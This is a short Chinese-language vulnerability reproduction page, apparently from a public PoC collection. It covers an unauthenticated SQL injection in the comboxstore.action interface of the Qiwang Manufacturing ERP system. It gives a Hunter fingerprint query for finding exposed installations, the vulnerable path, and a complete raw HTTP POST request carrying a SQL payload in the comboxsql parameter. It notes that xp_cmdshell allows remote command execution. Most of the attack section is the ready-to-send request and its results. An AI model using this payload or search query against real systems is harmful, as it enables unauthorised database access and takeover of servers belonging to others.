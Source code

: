# 企望制造ERP comboxstore.action SQL注入漏洞

# 一、漏洞简介
企望制造eERP系统由深知纸箱行业特点和业务流程的多位IT专家打造，具有国际先进的管理方式，将现代化的管理方式融入erp软件中，让企业分分钟就拥有科学的管理经验。 erp的功能包括成本核算、报价定价、订单下达、生产下单、现场管理等多种功能。由于企望制造 ERP comboxstore.action接口权限设置不当，默认的配置可执行任意SQL语句，利用xp_cmdshell函数可远程执行命令，未经认证的攻击者可通过该漏洞获取服务器权限。

# 二、影响版本
+ 企望制造ERP系统

# 三、资产测绘
+ hunter`app.name="企望制造ERP"`
+ 登录页面

![1693910033825-52c78947-5989-4307-9115-aad9c9a3a87e.png](./img/g3JR0CDELSXnpqfr/1693910033825-52c78947-5989-4307-9115-aad9c9a3a87e-529920.png)

# 四、漏洞复现
1.访问`poc`出现如下页面表示存在漏洞

```plain
/mainFunctions/comboxstore.action
```

![1693910438559-36044b06-551f-4853-ac6d-8de9fbe97157.png](./img/g3JR0CDELSXnpqfr/1693910438559-36044b06-551f-4853-ac6d-8de9fbe97157-625317.png)

2. 执行SQL语句获取数据库版本

```plain
POST /mainFunctions/comboxstore.action HTTP/1.1
Host: xx.xx.xx.xx	
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/117.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: JSESSIONID=7256C68B9C89F11BE2F841C3F1CAA415
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 29

comboxsql=select%20@@version;
```

![1693910681210-3bb44a13-6f9c-450e-9a10-9309fa6f8cc2.png](./img/g3JR0CDELSXnpqfr/1693910681210-3bb44a13-6f9c-450e-9a10-9309fa6f8cc2-183096.png)

![1693911193284-eefe9f64-ead8-478a-ac99-b62baaa53d9f.png](./img/g3JR0CDELSXnpqfr/1693911193284-eefe9f64-ead8-478a-ac99-b62baaa53d9f-226165.png)



> 更新: 2024-02-29 23:55:50  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/ry4xq0e8le5qgn5r>